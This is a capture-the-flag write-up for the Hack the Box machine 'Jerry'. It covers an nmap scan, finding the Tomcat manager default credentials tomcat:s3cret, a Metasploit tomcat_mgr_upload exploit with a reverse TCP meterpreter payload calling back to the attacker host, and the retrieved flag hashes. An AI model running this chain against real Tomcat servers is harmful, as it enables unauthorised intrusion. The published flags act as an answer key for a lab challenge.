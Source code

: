 ![jerry](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Jerry/jerry.png)

## Enumeration

\
Start with an nmap scan:

```
nmap -A 10.10.10.95
```

```
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-07-26 15:18 EDT
Nmap scan report for 10.10.10.95
Host is up (0.10s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional
Aggressive OS guesses: Microsoft Windows Server 2012 (90%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 7 Professional (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   102.96 ms 10.10.14.1
2   104.81 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.45 seconds
```

## Exploitation

\
Looks like the only port open is 8080, which is running Apache Tomcat 1.1.  Some research pointed me to a [metasploit module](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) for logging into Apache Tomcat using default credentials.  Using this I got the credentials tomcat:s3cret.  Now we can use the [tomcat manager authenticated upload module](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > check
[*] 10.10.10.95:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > set lhost 10.10.14.232
lhost => 10.10.14.232
```

We got a meterpreter shell on the machine, and from there I was able to navigate to the file containing both the user and root hashes:

```
meterpreter > dir
meterpreter > cd c:\
meterpreter > cd \Users
meterpreter > cd \Administrator
meterpreter > cd \Desktop
meterpreter > cd \flags
meterpreter > download 2 for the price of 1.txt
```

## User and Root Files

\
I then pulled it back to my local machine to view both flags:
```
root@kali:~# cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


